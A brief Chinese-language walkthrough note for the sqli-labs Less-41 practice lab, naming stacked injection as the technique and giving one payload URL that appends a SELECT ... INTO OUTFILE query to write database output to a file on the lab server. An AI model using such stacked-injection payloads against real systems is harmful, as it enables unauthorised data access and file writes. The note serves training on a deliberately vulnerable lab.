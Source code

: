 ### Less-41：GET -BLIND based - lntiger - stacked

**注入类型**

堆叠注入

**闭合方式**

id=%id

```sql
http://192.168.65.128/sqli-labs/Less-41/?id=1;
select 'Less-41',database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" --+
```

![](file/image_HD7of1Rtqk.png)
